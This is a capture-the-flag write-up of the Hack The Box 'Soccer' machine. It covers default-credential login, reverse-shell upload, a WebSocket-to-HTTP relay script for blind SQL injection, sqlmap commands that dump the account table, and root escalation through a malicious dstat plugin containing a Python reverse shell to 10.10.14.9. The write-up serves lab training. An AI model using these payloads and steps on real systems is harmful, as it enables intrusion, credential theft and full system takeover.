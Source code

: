 ### Enumeration

By nmap port scan we have some open tcp and udp ports
```shell
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http         nginx 1.18.0 (Ubuntu)
1026/tcp filtered LSA-or-nterm
9091/tcp open  xmltec-xmlmail
19/udp    closed chargen
1214/udp  closed fasttrack
19374/udp closed unknown
20380/udp closed unknown
32385/udp closed unknown
57843/udp closed unknown
```

![](/Hack-The-Box/soccer/img/1.png)

During directory scanning we found some endpoints where one is a login page to `tiny file mnager` and the second one is a upload page which is forbidden
```shell
200      GET      147l      526w     6917c http://soccer.htb/
301      GET        7l       12w      178c http://soccer.htb/tiny => http://soccer.htb/tiny/
301      GET        7l       12w      178c http://soccer.htb/tiny/uploads => http://soccer.htb/tiny/uploads/
```
![](/Hack-The-Box/Mentor/img/2.png)

So by using the defaults credentials from github page; we successfully login and found a upload function. so navigating to `/tiny/uploads` and uploaded our revshell payload and recived a shell as `www-data`

SInce the site is running on `nginx` we just navigate to `/etc/nginx/site-availabes` and found a subdomain running on the server
![](/Hack-The-Box/Mentor/img/3.png)

![](/Hack-The-Box/Mentor/img/4.png)

we signin  and login to the account a found a page to check our tickets. 
![](/Hack-The-Box/Mentor/img/5.png)

while checking the html source page we found a websocket connection running on the subdomain
```html
 <script>
        var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
        window.onload = function () {
        
        var btn = document.getElementById('btn');
        var input = document.getElementById('id');
```

Since there is nothing else that caught my eye I digged around and found out that we probably could try to find a blind sql injection like described on
```url
https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html
```

so crafing the script 
```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091/"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```
Now using sqlmap we have got password for user palyer
```c
sqlmap -u "http://localhost:8081/?id=96680*" --batch --dbs 
sqlmap -u "http://localhost:8081/?id=96680*" --batch -D soccer_db --tables --dbs
sqlmap -u "http://localhost:8081/?id=96680*" --batch -D soccer_db -T accounts  --dump
```

### PRIVILLAGE ESCLATION

when executing 
`find / -type d -writable 2>/dev/null | grep -v -e '^/proc' -e '/run'`
we found a file named dstat in `/usr/local/share`

and while running 
`find / -user root -perm -4000`
we found `/usr/local/bin/doas`
```c#
doas is a command on OpenBSD systems that allows users to execute commands as other users, similar to the sudo command on other Unix-like operating systems. It stands for "do as", as in "perform the following command as the specified user". doas is configured through the /etc/doas.conf file, which specifies which users are allowed to use doas and which commands they are allowed to execute.
```
```python
player@soccer:/usr/local/etc$ cat doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

Now we are abuding  dstat pligins in order to become root user
 create a file named `dstat_bq.py` with our rev_shell payload
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",3636));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")

```
upload the file to our target machine using `wget`
copy the file into `/usr/local/share/dstat` and change the permission of the file
check whether our malcious plugin have been loaded
` doas /usr/bin/dstat --list`
![](/Hack-The-Box/Mentor/img/6.png)

Open a netcat lisner and execute the following command
`doas -u root /usr/bin/dstat --bq`
![](/Hack-The-Box/Mentor/img/7.png)
